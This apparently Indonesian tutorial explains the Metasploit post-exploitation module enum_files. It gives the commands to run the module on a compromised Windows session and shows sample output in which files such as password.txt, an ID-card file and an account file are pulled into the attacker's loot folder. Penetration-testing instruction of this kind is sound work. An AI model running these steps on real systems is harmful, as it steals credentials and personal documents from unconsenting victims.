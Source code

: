 # enum_file

Module `enum_files` di Metasploit adalah modul `post-exploitation `untuk sistem Windows yang digunakan untuk mencari dan mengumpulkan daftar file berdasarkan ekstensi tertentu seperti `.pdf`, `.docx`, `.txt`, dan `lainnya` dari komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan memindai direktori yang ditentukan secara rekursif untuk menemukan file-file penting yang berpotensi sensitif, sehingga berguna dalam proses pengumpulan informasi lebih lanjut setelah eksploitasi berhasil dilakukan.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_files
set FILE_GLOBS *.txt
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Searching C:\Users\ through windows user profile structure
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\ISS_Release.txt
[+] ISS_Release.txt saved as: /root/.msf4/loot/20250516123106_default_192.168.1.52_host.files_316311.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\Release_RTWlanU.txt
[+] Release_RTWlanU.txt saved as: /root/.msf4/loot/20250516123106_default_192.168.1.52_host.files_362125.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\Utility_Release.txt
[+] Utility_Release.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_713887.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\ISS_Release.txt
[+] ISS_Release.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_313018.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\Release_RTWlanU.txt
[+] Release_RTWlanU.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_663615.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\Utility_Release.txt
[+] Utility_Release.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_218646.txt
[*] Downloading C:\Users\admin\Desktop\password.txt
[+] password.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_562665.txt
[*] Downloading C:\Users\admin\Desktop\KTP SAYA.txt
[+] KTP SAYA.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_967686.txt
[*] Downloading C:\Users\admin\Desktop\AKUN PB.txt
[+] AKUN PB.txt saved as: /root/.msf4/loot/20250516123109_default_192.168.1.52_host.files_165012.txt
[*] Done!
[*] Post module execution completed
```
